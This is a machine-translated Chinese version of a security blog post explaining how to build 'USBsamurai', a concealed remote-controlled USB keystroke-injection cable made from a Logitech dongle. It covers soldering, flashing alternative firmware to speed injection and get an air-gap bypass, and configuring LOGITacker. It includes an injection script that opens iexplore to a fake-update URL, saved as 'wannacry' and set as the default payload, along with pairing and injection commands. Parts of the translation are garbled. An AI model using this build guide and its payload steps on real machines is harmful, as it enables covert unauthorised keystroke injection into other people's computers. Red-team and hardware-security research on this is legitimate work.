# 假人用 USBsamurai

> 原文：<https://infosecwriteups.com/usbsamurai-for-dummies-4bd47abf8f87?source=collection_archive---------0----------------------->



在之前的帖子[https://medium . com/@ LucaBongiorni/usbsamurai-a-remote-controlled-malicious-USB-hid-injecting-cable-for-less-10-ebf 4b 81 e 1d 0 b](https://medium.com/@LucaBongiorni/usbsamurai-a-remotely-controlled-malicious-usb-hid-injecting-cable-for-less-than-10-ebf4b81e1d0b)中我已经讲了一点基于 C-U0007 的 USBsamurai。

通过这篇博文，我想带来更多关于:

*   **C-u 0007&C-u 0012**有哪些区别
*   **如何用 C-U0012 建造 USBsamurai】**
*   **如何用光速固件刷新 C-u 0012**
*   **如何用 G700 固件刷新 C-U0007 以实现更好的性能并获得气隙旁路功能**
*   **如何设置 LOGITacker**

我们开始吧！

# **C-u 0007&C-u 0012 的区别:**

正如你在下面看到的，它们从美学的角度来看完全不同。而且 C-U0007 挂载的是北欧芯片组，C-U0012 a TI 芯片组。当选择最好的硬件来创建 USBsamurai 时，这些信息将会部分有用。

# **> > >我个人确实推荐了 C-U0012，以后你会感谢我的！；)< < <**



C-U0007 统一加密狗



C-U0012 统一加密狗

# **如何用 G700 固件刷新 C-U0007 以实现更好的性能并获得气隙旁路功能:**

首先，为什么我们需要在 C-U0007 上刷新 G700 固件？

很简单，对于击键注入，接收器型号很重要，因为打字速度取决于此。对于统一接收器(即 C-U0007)，键入气隙旁路客户端需要大约。两分钟。尽管是以一种隐秘的方式输入的，但这并不是最佳的。

对于具有北欧芯片组(即 C-U0007)的统一接收器，如果使用 G700 固件，这可以减少到 30 秒，但是注入**总是不加密的** *(这意味着其他人都可以注入，因为 G700 接受普通注入)。

*如果你在注入有效载荷时想要更多的隐私，我推荐使用稍微贵一点的 C-U0012，它有加密功能。

如何提高 C-U0007 的速度？
你需要买一个旧的 G700 鼠标，用 [***转储它的固件***](https://github.com/mame82/munifying) 然后把你想要的 C-U0007 全部闪存。很幸运，正好我这里有一个 G700 固件可用*。:)查看下面的详细说明。*

***对于 TI 接收器(即 C-U0008/0012)，使用 LIGHTSPEED 固件**也可以将打字速度降低到 30 秒。你从哪里得到光速固件？要么上 [**罗技的 Github**](https://github.com/Logitech/fw_updates/tree/update2019-08-27/RQR39/RQR39.06) 要么上 [**这里**](https://mega.nz/#!KJAwVYQY!ldhV3YAQlF7FEzuRmr2ySj4xrXiAF5iWbZN_DmvO8zg) 。但是将在本文后面详细讨论。*

# ***如何用 C-U00012 构建 USBsamurai】***

*重要！开始之前，确保你知道你在做什么，并准备好所有的工具！*

**

*这个过程相当简单:*

*   *耐心地**打开 USB 加密狗，取出带天线的 PCB。***
*   *打开 USB 电缆**，但不要破坏它。用手术刀帮你。*
*   *轻轻切开 USB 插头的白色塑料，露出其针脚。*
*   *向这些引脚添加助焊剂和焊料，并对 C-U0012 上的引脚进行同样的操作。*
*   *将所有广告焊接在下图中。最后自己拿些夹子吧。请记住，为了更好地适应 USB 外壳，它们必须尽可能靠近焊接！立即焊接前，检查措施！！！**第一次不要急！***

** *我建议试试这个，我用这个电缆做了几个 USBsamurai。用手术刀很容易打开。[https://www.aliexpress.com/item/33052091501.html](https://www.aliexpress.com/item/33052091501.html)*

**********

*恭喜你。现在你有了第一个基于 C-U0012 的 USBsamurai！*

**

# *如何用光速固件刷新 C-U0012*

*从 [**罗技**](https://github.com/Logitech/fw_updates/tree/update2019-08-27/RQR39/RQR39.06) 的 Github 或者 [**这里**](https://mega.nz/#!KJAwVYQY!ldhV3YAQlF7FEzuRmr2ySj4xrXiAF5iWbZN_DmvO8zg) 下载固件，使用[***munifying***](https://github.com/mame82/munifying)在 C-U0012 加密狗上闪存！*

****

*对于光速，**的吞吐量比普通的统一固件**要高，最重要的是**隐蔽通道被加密**。因此 LOGITacker 需要知道它的加密密钥。这是通过将 C-U0012 加密狗与 LOGITacker 本身配对来实现的。*

*还要记住，如果**你计划使用基于 C-U0012 的 USB samurai…logi tacker 需要以光速模式运行**。您可以使用以下命令设置它:*

**

***记住:**如果你想使用带有 G700 fw 的 C-U0007，你必须将操作模式切换回 G700:*

**

# ***如何用 G700 固件刷新 C-U0007 以获得更好的性能并获得气隙旁路功能***

***重要提示:***

*版本 01.04 的 C-U0007 引导加载程序(又名 BL)已签名，因此不允许刷新没有签名的固件(G700、nrf_research_firmware 等)！*

*以下是识别签名提单的方法:*

1.  *通过固件版本:带有 RQR12.09 或 RQR12.11 的 CU0007 已签名(*
2.  *Through bootloader version itself: <= BOT01.03 unsigned, > = BOT01.04 已签名)*

*要检查版本 u 可以使用 ***sudo。/munifying info"****

***在这种情况下，尝试刷新未签名的固件将会失败，并且刷新会显示正确的错误和 BL 版本(当加密狗处于引导加载程序模式时)。***

**

*购买一个 C-U0007 并保证 BL 是< =01.03 并不容易，因为 99.9999%的卖家不会知道。这是你应该关注 C-U0012 的另一个原因！！！其不受该问题的影响。*

*闪存程序非常简单:*

*   *将 C-U0007 转换器插在计算机上。*
*   *下载 G700 固件可用 [***这里有***](https://mega.nz/#!eUI2lAzZ!BvlQXs9E9HV6xrlixQw05u1IdqgB6fEsn6UmI4ZQCvc) ***。****
*   ***运行*须藤。/munifying flash-r[C-u 0007 _ G700]_ rqr 21.00 _ b 0007 _ bot 01.02 . b 0014 . bin***"*

****

*   *搞定了。您已经准备好将您的新 USBsamurai 与 LOGITacker 配对！*

*记住首先使用命令`munifying unpairall`解除所有预配对设备的配对*

*G700 固件每次仅限一个配对设备！*

***提醒:LOGITacker 需要在 G700 模式下运行**。您可以使用以下命令设置它:*

**

*相反，如果你想使用带有光速 fw 的 C-U0012，你必须将你的 LOGITacker 的操作模式切换回光速:*

**

# ***如何设置 LOGITacker***

*这里我们需要将主题分成几点，我不会深入讨论，因为在 Github 的 repo **中有大量的文档。***

*首先，我假设你已经在一个兼容的硬件上刷新了它的最新版本。[如果您正在更新到最新版本，在刷新后，通过串行连接到 LOGITacker，并发出 erase_flash 命令。请注意，您可能会丢失所有以前的脚本和数据。]*

***工作模式(*这是确保一切正常工作的必要条件！！！)***:*

*   *对于基于 C-U0007 (w/ G700 fw)的 USBsamurai，您需要将 LOGITacker 工作模式设置为 G700。*
*   *对于基于 C-U0012 (w/ LIGHTSPEED fw)的 USBsamurai，您需要将 LOGITacker 工作模式设置为 LIGHTSPEED。*

***如何创建脚本并在启动时自动加载:***

*简单，通过串口连接到 LOGITacker，输入如下内容。*

****脚本按 GUI r
脚本延迟 500
脚本字符串 ie xplore-k***[***http://fakeupdate.net/wnc/***](http://fakeupdate.net/wnc/) ***脚本延迟 200
脚本按 RETURN
脚本存储 wannacry****

*一旦保存在闪存中，尝试再次加载。*

****脚本加载 wannacry
脚本显示****

**

*以下命令将告诉 LOGITacker 使用这个有效负载作为每次注入的默认有效负载。*

****选项注入默认脚本 wannacry
选项存储****

**

***如何配对 USBsamurai:***

*   *首先，从计算机的终端运行 ***sudo。/munifying pair****
*   *然后，从 LOGITacker 控制台运行 ***配对设备运行****
*   *配对数据(即加密密钥)将存储在 LOGITacker 的闪存中。*

**

***重要！:**每次您打开 LOGITAcker 时，您必须从闪存中加载您想要使用的特定 USBsamurai 的配对数据。为此，您需要键入以下命令*

****设备存储负载 XX:XX:XX:XX****

*并选择特定加密狗的正确地址。当然可以加载多个 USBsamurai！*

***如何注入有效载荷:***

*   *在 LOGITacker 上设置正确的工作模式(如果尚未设置)(即 g700 或 lightspeed)。*
*   *从 Flash 加载配对的 USBsamurai，如果尚未加载(即 ***设备存储加载 XX:XX:XX:XX:XX*** ”)*
*   *告诉 LOGITACker 使用那个特定的 USBsamurai(即 ***注入目标 XX:XX:XX:XX:XX****)**
